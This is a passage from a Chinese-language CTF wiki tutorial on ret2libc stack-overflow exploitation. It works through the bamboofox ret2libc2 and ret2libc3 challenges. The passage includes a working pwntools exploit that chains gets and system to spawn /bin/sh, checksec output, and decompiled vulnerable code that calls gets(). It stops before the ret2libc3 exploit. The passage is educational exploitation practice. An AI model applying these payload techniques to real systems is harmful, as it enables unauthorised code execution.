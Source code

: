 這裏我們需要注意函數調用棧的結構，如果是正常調用 system 函數，我們調用的時候會有一個對應的返回地址，這裏以 `'bbbb'` 作爲虛假的地址，其後參數對應的參數內容。

這個例子相對來說簡單，同時提供了 system 地址與 /bin/sh 的地址，但是大多數程序並不會有這麼好的情況。

#### 例2

這裏以 bamboofox 中的 ret2libc2 爲例 。

> 點擊下載: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2)

該題目與例 1 基本一致，只不過不再出現 /bin/sh 字符串，所以此次需要我們自己來讀取字符串，所以我們需要兩個 gadgets，第一個控制程序讀取字符串，第二個控制程序執行 system("/bin/sh")。由於漏洞與上述一致，這裏就不在多說，具體的 exp 如下：

```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    [b'a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline(b'/bin/sh')
sh.interactive()
```

需要注意的是，我這裏向程序中 bss 段的 buf2 處寫入 /bin/sh 字符串，並將其地址作爲 system 的參數傳入。這樣以便於可以獲得 shell。

#### 例3

這裏以 bamboofox 中的 ret2libc3 爲例  。

> 點擊下載: [ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3)

在例 2 的基礎上，再次將 system 函數的地址去掉。此時，我們需要同時找到 system 函數地址與 /bin/sh 字符串的地址。首先，查看安全保護

```shell
➜  ret2libc3 checksec ret2libc3
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序仍舊開啓了堆棧不可執行保護。進而查看源碼，發現程序的 bug 仍然是棧溢出：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```
